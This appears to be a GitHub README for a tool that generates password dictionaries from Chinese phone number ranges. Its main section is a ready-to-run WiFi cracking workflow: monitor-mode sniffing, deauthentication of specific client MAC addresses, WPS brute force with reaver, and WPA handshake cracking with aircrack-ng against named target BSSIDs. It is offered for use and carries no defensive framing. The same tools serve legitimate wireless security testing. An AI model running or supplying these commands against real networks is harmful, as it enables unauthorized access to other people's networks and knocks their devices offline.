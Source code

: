 # Generate dictionary based on Chinese phone number

## Usage
Set priority in table `province_priority` to adjust the sequence of the province in dict, priority 0 will not be generated.

- `load_phone.py` loads phone numbers to sqlitedb
- `phone_dict_gen.py` will generate the phone dicts

## Crack cmd
```bash
# wlan interface
wlan_mon_if=wlan1mon
# Enable monitor mode
sudo airmon-ng start ${wlan_mon_if}

# Sniff
# Sniff wifi, -c CHANNEL
rm -fr *.cap && sudo airodump-ng --wps -w wpa ${wlan_mon_if} -c 6

###################################################################
# tgt is the target wifi to crack, clientvic is the client to deauth
tgt=8C:18:50:56:2B:28

# Collect the handshake cap
sudo rm -fr *.cap && sudo airodump-ng --bssid ${tgt} -w ${tgt}.cap ${wlan_mon_if} -c 2

# # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # 
# Deauth the client
tgt=8C:18:50:56:2B:28

clientvic=14:5F:94:8C:AA:BF
sudo aireplay-ng -0 10 -a ${tgt} -c ${clientvic} ${wlan_mon_if}
clientvic=74:E2:F5:33:23:D4
sudo aireplay-ng -0 10 -a ${tgt} -c ${clientvic} ${wlan_mon_if}

###################################################################

sudo reaver -i ${wlan_mon_if} -b ${tgt} –a –S –vv –d 0  -c 11


caps=BC-5F-F6-B2-6B-02_handshake.cap

# Check SSID
aircrack-ng  -J wpahash ${caps}

# Crack
aircrack-ng -l wpakey.txt -w ~/phone_dict_gen/phone.dict ${caps}
```


## Phone data src
https://gitee.com/oss/phonedata/attach_files